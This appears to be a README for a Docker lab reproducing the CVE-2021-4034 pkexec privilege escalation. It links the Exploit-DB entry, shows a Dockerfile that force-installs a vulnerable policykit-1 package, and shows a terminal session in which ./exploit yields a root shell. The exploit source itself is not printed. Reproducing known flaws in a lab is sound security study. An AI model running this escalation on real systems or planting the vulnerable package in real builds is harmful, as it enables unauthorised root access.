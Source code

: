 # Run in a docker

## Original exploit
https://www.exploit-db.com/exploits/50689

## Links to deb files
https://launchpad.net/ubuntu/+source/policykit-1

## Setup

```bash
wget https://launchpad.net/ubuntu/+source/policykit-1/0.105-31/+build/21659401/+files/policykit-1_0.105-31_amd64.deb
```

## Dockerfile
```dockerfile
FROM ubuntu:jammy

RUN apt update
RUN apt install -y policykit-1
RUN adduser user
WORKDIR /home/user
ADD CVE2021-4034.tar.gz .

# install vulnerable deb file
ADD policykit-1_0.105-31_amd64.deb .
RUN dpkg --force-all -i policykit-1_0.105-31_amd64.deb

USER user
ENTRYPOINT [ "bash" ]
```

## Exploit
```bash
┌──(kali㉿kali)-[~/test/privescdock]
└─$ docker run --rm -it testpkexec
user@bc4803a951e9:~$ ls
Makefile  evil-so.c  evil.so  exploit  exploit.c  policykit-1_0.105-31_amd64.deb
user@bc4803a951e9:~$ ./exploit 
# id
uid=0(root) gid=0(root) groups=0(root)
#    
```
